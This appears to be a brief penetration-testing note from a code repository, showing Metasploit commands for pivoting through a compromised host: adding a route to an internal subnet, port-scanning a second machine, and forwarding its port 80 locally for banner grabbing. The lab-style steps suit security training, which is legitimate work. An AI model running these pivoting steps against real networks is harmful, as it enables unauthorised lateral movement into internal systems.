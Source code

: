 # Pivoting With Metasploit

## Pivoting With Metasploit

## Pivoting

```bash
run autoroute -s 10.0.23.0/20
```

#### Running the port scanner on the second machine

```bash
background
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.27.99
set PORTS 1-100
exploit
```

**We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap**

```bash
sessions -i 1
portfwd add -l 1234 -p 80 -r 10.0.27.99
portfwd list
```

